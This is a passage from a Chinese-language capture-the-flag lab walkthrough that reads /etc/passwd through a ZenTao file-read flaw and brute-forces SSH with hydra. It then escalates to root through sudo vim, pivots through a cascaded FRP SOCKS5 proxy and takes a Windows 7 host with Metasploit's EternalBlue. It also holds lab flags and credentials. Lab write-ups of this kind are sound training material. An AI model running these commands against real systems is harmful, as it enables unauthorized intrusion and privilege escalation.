可以用 ZenTao 的任意文件读取漏洞进行查看

```bash
curl -s --socks5 192.168.153.135:55004 -b /tmp/oa_cj.txt \
  "http://172.16.37.17/zentao/api-getModel-file-parseCSV-fileName=/etc/passwd.txt/1" | head -20
```

输出（关键行）：

```plaintext
student:x:1000:1000::/home/student:/bin/bash
```

读出的信息：系统里有一个普通用户 `student`（UID 1000）

#### 7\.3\.2 爆破 student 密码

```plaintext
proxychains4 hydra -l student -P /usr/share/wordlists/rockyou.txt \
  172.16.37.17 ssh -t 4 -f -V
```

关键输出：

```plaintext
[22][ssh] host: 172.16.37.17  login: student  password: student123
```

`student` 的 SSH 密码是 `student123`

#### 7\.3\.3 SSH 登录

```bash
proxychains4 ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null student@172.16.37.17
```

输入密码：`student123`



### 7\.4 读取 Flag5

登录后，输入以下命令，查看Flag5

```bash
cat /Flag5.txt
```

即可成功看到Flag



### 7\.5 Flag5

```plaintext
Flag5{DGBQZxHdJyXUZuk}
```

---

## 八、Flag6 —— OA 权限提升

### 8\.1 本地提权信息收集

\(1\) 确认当前权限

```bash
id
```

\(2\) 审计 sudo 权限

```bash
sudo -n -l
```



读出的信息： `student` 可以免密执行 `vim` —— 这是提权点！

原理：

- `sudo -n -l` = 非交互模式列出当前用户的 sudo 权限

- `NOPASSWD: /usr/bin/vim` = 可以不输入密码用 root 权限运行 vim

\(3\) 确认 Flag6 需要 root

```bash
cat /root/Flag6.txt
```



`/root` 目录权限是 `drwx------`（只有 root 能进）

### 8\.2 sudo vim 提权到 root

在 Kali 执行以下命令进行提权

```bash
sudo -n vim -es -c ':!/bin/bash -c "id; whoami; cat /root/Flag6.txt"' -c ':q!'

#以下注释为代码语句解释：
#sudo -n                                          不询问密码（因为配置了 NOPASSWD）
#vim                                              启动 vim（以 root 权限）
#-es                                              静默模式（-e ex mode + -s silent）
#-c ':!/bin/bash -c "..."'                        执行 vim 命令：:! = 运行 shell
#-c ':q!'                                         执行 vim 命令：:q! = 强制退出
```

回显如下：



### 8\.3 验证权限并读取 /root

#### 8\.3\.1 确认 root 权限

```bash
sudo -n vim -es -c ':!/bin/bash -c "id; whoami"' -c ':q!'
```

输出如下：



#### 8\.3\.2  列出 /root 目录

```bash
sudo -n vim -es -c ':!/bin/bash -c "ls -la /root/"' -c ':q!'
```



关键信息：`/root/Flag6.txt` 权限是 `-r--------`（只有 root 能读）

### **8\.4 核心原理**

#### 8\.4\.1 GTFObins 提权

`/etc/sudoers` 配置：

```bash
student ALL=(ALL) NOPASSWD: /usr/bin/vim
```

含义：student 可以免密用 root 权限运行 vim

利用链：

```markdown
student 执行 sudo vim          ← vim 以 root 运行
        ↓
vim 内执行 :!/bin/bash -c ...  ← shell 以 root 运行
        ↓
id → uid=0(root)
        ↓
cat /root/Flag6.txt → 读到 Flag6
```

`-es` 模式的作用：

- `-e` = ex mode（命令行模式，无界面）

- `-s` = silent（静默，不显示交互提示）

- 组合效果：无需人工交互，直接执行命令并退出

### 8\.5 Flag6

```plaintext
Flag6{kkexRrfXJfwhhv5}
```

---

## 九、Flag7 —— 二级代理穿透与内网主机探测

### 9\.1 确保 OA 的连接

如果之前断连了，可在 Kali 上使用以下命令重新连接 OA

```bash
proxychains4 ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null student@172.16.37.17
```

密码：`student123`

（1）查看网卡 IP

确保在 Kali 上能够成功 SSH 到OA的前提下，使用以下命令

```bash
hostname -I
```

输出结果：



读出的信息：OA 是双网卡：

- `eth0` = `172.16.37.17`（net1，与 DMZ 同网段）

- `eth1` = `10.15.51.12`（net2，通往第三层）

\(2\) 查看路由表

```bash
cat /proc/net/route
```

输出结果：



三条路由的换算如下所示

|**网卡**|**原始值**|**反序**|**结果**|
|:---:|:---:|:---:|:---:|
|eth0|`00000000`|`00.00.00.00`|默认路由|
|**eth1**|**`00330F0A`**|**`10.15.51.0`**|**深层网段**|
|eth0|`000010AC`|`172.16.0.0`|net1 网段|

Mask 同理：

```plaintext
00FFFFFF → 反序 → FF FF FF 00 → 255.255.255.0 → /24
```

读出的核心信息：

- 深层网段 = `10.15.51.0/24`

#### 9\.1\.1 扫描发现 Win7 IP（动态）

\*前提：首先先确保你的 Win7 虚拟机时开启的状态，否则机器没开，怎么配置都是不通的

具体的检查及开启的命令请登录宿主机进行操作（可见下文的第十章开头部分，那里我有写）

（1）在 Kali 代理连接 OA 上执行

```bash
for i in $(seq 1 254); do
  timeout 2 bash -c "echo > /dev/tcp/10.15.51.$i/3389" 2>/dev/null && echo "10.15.51.$i:3389 OPEN"
done
```

输出（动态的，不一定是和我一样的\.20）：



（2）或者用 ARP 表（方法二）：

```bash
cat /proc/net/arp | grep "10.15.51"
```



提示：找到有对应 MAC 地址的即可

\(3\) 测试 Win7 可达性

```bash
timeout 5 bash -c "echo > /dev/tcp/10.15.51.20/3389" && echo "OPEN" || echo "closed"
```



和我上图一样显示`OPEN`，即可说明链路是通的

### 9\.2 搭建二级 FRP 代理

拓扑原理部分如下

```markdown
Kali
192.168.153.130
   |
   | SOCKS5 :55005
   v
Docker 宿主机
192.168.153.135
   |
   | Docker 端口映射
   v
DMZ
172.16.37.16
   |
   | FRPS :7000
   | 接收 OA FRPC2 注册
   |
   | FRPS :55005
   | 对外提供代理入口
   v
OA
172.16.37.17
10.15.51.12
   |
   | FRPC2 SOCKS5 插件
   v
Win7
10.15.51.x
   |
   +--- SMB :445
   |
   +--- RDP :3389
```


|**配置项**|**实际作用**|
|:---:|:---:|
|bindPort = 7000|FRPS 接收 FRPC 注册和隧道连接|
|remotePort = 55005|FRPS 对外暴露的代理入口|
|SOCKS5 插件|在 OA 这一侧代替 Kali 发起内网连接|

#### **9\.2\.1 OA 上下载  FRP **

这里我依旧演示使用 Kali 搭建 HTTP 服务下载

（1）进入对应防止 FRP 文件的路径，并启动HTTP下载服务

```bash
cd /home/kali/frp_share && python3 -m http.server 9999
```



上图显示的200，是我 OA 靶机拉取成功的提示

（2）在已经远程的 OA 靶机上执行拉取命令

```bash
#curl -sL -o frp.tar.gz http://<你的KaliIP>:9999/frp.tar.gz
curl -sL -o frp.tar.gz http://192.168.153.130:9999/frp.tar.gz
```



如上图所示，即为拉取成功，就可以把 Kali 的 HTTP 服务关闭了

#### 9\.2\.2 OA 上解压 FRP

（1）解压 frp\.tar\.gz

```bash
#进入根目录
cd ~
#在当前目录下创建一个名为 frp 的文件夹
mkdir -p frp && cd frp
#解压对应的文件
tar xzf ../frp.tar.gz
#移动文件位置
cp frp_0.71.1_linux_amd64/frps frp_0.71.1_linux_amd64/frpc .
#给予执行权限
chmod +x frps frpc
#列出当前目录的所有文件
ls -la
```


清理不需要的文件（可选）

```powershell
rm -rf frp_0.71.1_linux_amd64/
```

### 9\.3 新增 OA FRPC 代理配置

#### 9\.3\.1 进入 OA 的 FRP 目录

先确保目录正确：

```bash
ls
#预期回显：frpc  frps
```

在 OA（Kali SSH 会话）上执行：

```bash
cd ~/frp || exit 1
#确认路径正确
```

#### 9\.3\.2 备份旧配置（如果存在）

```bash
if [ -f frpc2.toml ]; then
    cp -a frpc2.toml frpc2.toml.bak
fi
```

复制 FRPC 程序，并重命名为`frpc2`

```bash
cp -f ./frpc ./frpc2
```

#### 9\.3\.3 设置执行权限

```bash
chmod +x ./frpc2
```

#### 9\.3\.4 编写二级代理配置文件

（1）使用 `printf` 命令直接生成配置文件，避免手动编辑时混入多余文字

\*注意`token`需要与DMZ上的frps里配置的一致

```bash
printf '%s\n' \
'serverAddr = "172.16.37.16"' \
'serverPort = 7000' \
'' \
'auth.method = "token"' \
'auth.token = "admin123"' \
'' \
'log.to = "/tmp/frpc2.log"' \
'log.level = "info"' \
'' \
'[[proxies]]' \
'name = "oa-win7-socks5"' \
'type = "tcp"' \
'remotePort = 55005' \
'' \
'[proxies.plugin]' \
'type = "socks5"' \
> ./frpc2.toml
```

（2）检查配置文件内容

使用 `nl -ba` 查看配置文件，并显示行号

```bash
nl -ba ./frpc2.toml
#确认配置内容完整，没有多余的文字或错误的配置项
```

（3）验证配置文件语法

使用 FRPC2 自带的 `verify` 功能检查配置文件

```bash
./frpc2 verify -c ./frpc2.toml
#检查命令是否有误
```

和下图一样，显示`OK`即可


#### 9\.3\.5 启动 FRPC2

在 OA 的 SSH 终端中执行：

```bash
cd ~/frp || exit 1
# 进入 FRP 工作目录，如果进入失败则退出，避免在错误目录执行

nohup ./frpc2 -c ./frpc2.toml >/tmp/frpc2-console.log 2>&1 &
# 使用 nohup 在后台启动 FRPC2，并将标准输出和错误输出写入日志文件

echo $! > /tmp/frpc2.pid
# 获取刚刚启动的后台进程 PID，并保存到文件中，方便后续管理
```

如果一切正常，日志中应该能看到类似：


#### 9\.4\.2 验证级联链路

（1）Kali 检查 55005

\*注意：下面命令是在 Kali 的终端执行，不是在 OA 上执行

```bash
nc -nvz -w 3 192.168.153.135 55005
# 检查 Kali 能否连接 DMZ 对外开放的 SOCKS5 代理端口
# -n：不进行 DNS 查询
# -v：显示详细连接信息
# -z：只检测端口，不传输数据
# -w 3：连接超时时间为 3 秒
```


其中：

- `Unknown host`：没有找到对应的主机名

- `55005 open`：55005 端口可以正常连接

### 9\.4 Flag7

```plaintext
Flag7 = 10.15.51.20
```

---

## 十、Flag8 —— 内网主机权限获取

### 10\.1 MSF 扫描确认漏洞

#### 10\.1\.1 启动 MSF

（1）在 Kali终端中执行以下命令，静默启动 MSF 

```bash
msfconsole -q
#静默启动，不打印 Ascii Art

#成功启动后，命令提示符会变成 msf6 >，接下来的所有命令都在此提示符下执行
msf6 > + 对应的命令
```

（2）选择漏洞检测模块

```bash
use auxiliary/scanner/smb/smb_ms17_010
 #用来检测目标 Windows 机器是否存在著名的 MS17-010（永恒之蓝）漏洞
```

（3）设置全局代理（关键的内网穿透）

```bash
setg Proxies socks5:192.168.153.135:55005
#指定 SOCKS5 代理服务器
```

使用`setg`而不是`set`的好处是，这个代理配置对后续启动的所有模块都生效，不需要每次都重新设置

（4）指定目标主机

```bash
set RHOSTS 10.15.51.20
#设置扫描或攻击的目标 IP 地址
```

（5）启动扫描

```bash
run
```

运行内容如下


重点关注以下内容

```bash
[+] 10.15.51.20:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
#这是一台 64 位的 Windows 7 旗舰版（SP1）说明后面我们需要使用 x64 的 Payload
```

该模块不仅扫出了漏洞，还顺带把目标的操作系统指纹给识别出来了

- `[+]` 标识： 表示执行成功或发现目标

- `VULNERABLE`： 扫描结果提示目标高度疑似存在 MS17\-010 漏洞

- 系统信息： 探测到目标系统为 `Windows 7 Ultimate 7601 Service Pack 1 x64`

- 端口： 开启了 `445` 端口（SMB 服务）

### 10\.2 永恒之蓝漏洞攻击 Win7 

（1）在 Kali 上继续执行：

```bash
msfconsole -q
#启动 Metasploit 控制台
#如果前面对话还在的话可以不用执行这句
```

（2）选择针对 MS17\-010 漏洞的利用模块

```bash
use exploit/windows/smb/ms17_010_eternalblue
#启动漏洞利用模块
```

（3）全局设置代理（`setg`代表全局），让流量经过刚刚搭建的 Socks5 代理，以便访问到目标内网 `10.15.51.20`

```bash
setg Proxies socks5:192.168.153.135:55005
#走新 SOCKS5 代理
set RHOSTS 10.15.51.20
#设置目标，Win7 的 IP
```

（4）选择 Payload

```bash
set PAYLOAD windows/x64/meterpreter/bind_tcp
#就是漏洞利用成功后，在目标机器上执行的代码，这里是让目标机器绑定监听端口
```

（5）开始攻击

```bash
exploit
#exploit 和 run 在 Metasploit 里是等同的
#只是两个不同的命令别名
```

### 10\.2 登录 Win7 终端查询

成功利用 MS17\-010 漏洞并建立 Meterpreter 会话后，会显示下图中的内容


输入以下命令进入 shell：

```bash
meterpreter > shell
```

如果输出的显示为乱码，可以将这个编码格式设置为65001的格式


直接输入以下命令：

```powershell
chcp 65001
```

显示正常之后，可进入桌面查看对应的文件结构

```powershell
cd C:\Users\admin\Desktop
```

列出文件目录

```powershell
dir
```

可以看到这里有一个flag8\.txt

```powershell
type flag8.txt
```

最终显示内容如下：


## 十一、排错部分

### 11\.1 检查 Win7 虚拟机状态

Win7 虚拟机（10\.15\.51\.20）初始状态为 **shut off**，需通过宿主机启动

可在 Mobaxtream 里面进行临时连接

```bash
ssh root@192.168.153.135
```

宿主机的密码为：`BS8peMkmFWWYYbp`

### 11\.2 启动并修复 Win7 虚拟机

\*注意：CPU 兼容性问题的可选处理方法，需根据实际启动报错决定是否使用

```bash
# 查看 VM 状态
virsh list --all
# 如果输出 my-vuln3-win7   shut off

# 以下命令可以修复 CPU 兼容性（宿主机 CPU 缺少 pcid/md-clear 等特性）
virsh dumpxml my-vuln3-win7 > /tmp/win7.xml
sed -i "s|<cpu mode='custom' match='exact' check='partial'>.*</cpu>|<cpu mode='host-passthrough' check='none'/>|" /tmp/win7.xml
virsh define /tmp/win7.xml
virsh start my-vuln3-win7

# 验证
virsh list --all
# 正常显示 my-vuln3-win7   running
```

### 10\.4 Flag8

```plaintext
Flag8{aiIdhuwehduwauWin7Desk}
```

---

## 十二、Flag 汇总

|题号|Flag|获取方式|
|:---:|:---:|:---:|
|1|`Flag1{BS8peMkmFWWYYbp}`|DMZ robots\.txt|
|2|`Flag2{QRpbZQPymcCt3Dc}`|DMZ SQL 注入 / Webshell 读 /Flag2\.txt|
|3|`Flag3{4ZtG6ZX5h3QMZ2B}`|conn\.php 数据库凭据 → MySQL 查询|
|4|`172.16.37.17`|DMZ 内网探测发现 OA|
|5|`Flag5{DGBQZxHdJyXUZuk}`|SSH 爆破 \+ 登录读取|
|6|`Flag6{kkexRrfXJfwhhv5}`|sudo vim 提权|
|7|`10.15.51.20`|二级 FRP 代理扫描发现 Win7|
|8|`Flag8{aiIdhuwehduwauWin7Desk}`|二级代理 MSF \+永恒之蓝漏洞|

---

## 十三、漏洞原理总结

|漏洞类型|位置|原理|
|:---:|:---:|:---:|
|**敏感信息泄露**|DMZ robots\.txt|备份/配置文件泄露 Flag|
|**SQL 注入**|DMZ login\.php|用户输入直接拼接 SQL 语句|
|**命令执行**|DMZ webshell|哥斯拉 webshell 直接执行系统命令|
|**数据库凭据泄露**|DMZ conn\.php|配置文件硬编码 root/root|
|**内网穿透**|DMZ/OA 双网卡|容器双网卡未隔离，可路由到内网|
|**框架漏洞**|OA `/etc/sudoers`|GTFObins 提权|
|**sudo 配置不当**|OA `/usr/bin/vim`|NOPASSWD 允许 sudo vim，vim 可执行系统命令|
|**密码复用**|OA SSH student|弱口令 student123|
|**二级代理穿透**|OA 第二网段|双网卡主机作为跳板，FRP 级联|
|**SMB 远程代码执行**|Win7 SMB 服务|MS17\-010（永恒之蓝）|
|**弱密码**|宿主机 root|BS8peMkmFWWYYbp（与 Flag1 相同）|

---

## 

---

